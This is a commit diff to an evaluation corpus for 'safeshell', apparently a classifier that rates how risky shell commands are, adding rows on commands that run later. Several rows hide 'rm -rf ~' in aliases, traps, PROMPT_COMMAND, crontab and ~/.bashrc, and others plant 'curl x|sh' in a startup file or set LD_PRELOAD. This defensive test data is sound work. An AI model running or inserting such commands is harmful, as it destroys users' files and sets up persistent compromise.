

Before and after one commit to samarthsinh2660/safeshell, a TSV file: eval/corpus/commands.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
fix(classify): rate commands that run later (#72)
Alias values, trap actions, PROMPT_COMMAND values, crontab lines and text written to shell startup files are now rated as the commands they hide, and a cd inside them no longer changes later commands. Setting LD_PRELOAD, PROMPT_COMMAND, or a PATH or LD_LIBRARY_PATH that starts with a shared or relative folder is R2. Appending to a shell startup file is R2 or higher. Command substitutions in assignments (X=$(rm -rf /)) are now checked too.

Closes #72

```diff
--- a/eval/corpus/commands.tsv
+++ b/eval/corpus/commands.tsv
@@ -391 +391,21 @@ R1	cat .env.example | nc host 80
 R2	curl -d "$(date)" https://example.com	
+R4	alias ls='rm -rf ~'	
+R4	export PROMPT_COMMAND='rm -rf ~'	
+R4	trap 'rm -rf ~' EXIT	
+R4	echo '* * * * * rm -rf ~' | crontab -	
+R2	export LD_PRELOAD=/tmp/x.so	
+R2	export PATH=/tmp/x:$PATH	
+R2	export PROMPT_COMMAND='history -a'	
+R2	echo 'source ~/x.sh' >> ~/.zshrc	
+R0	alias ll='ls -l'	
+R0	export PATH=$HOME/bin:$PATH	
+R0	export EDITOR=vim	
+R1	echo '0 3 * * * tar czf b.tgz d' | crontab -	
+R1	echo hi >> notes.txt	
+R3	echo 'curl x|sh' >> ~/.bashrc	
+R4	echo 'rm -rf ~' >> ~/.bashrc	
+R2	echo 'export PATH=$PATH:~/bin' >> ~/.bashrc	
+R4	(crontab -l; echo '* * * * * rm -rf ~') | crontab -	
+R4	crontab -l | { cat; echo '* * * * * rm -rf ~'; } | crontab -	
+R4	echo '* * * * * rm -rf ~' | sudo crontab -u root -	
+R4	trap -- 'rm -rf ~' EXIT	
```
Also changed, not shown: 12 added rows elsewhere in this file, 10 other files.
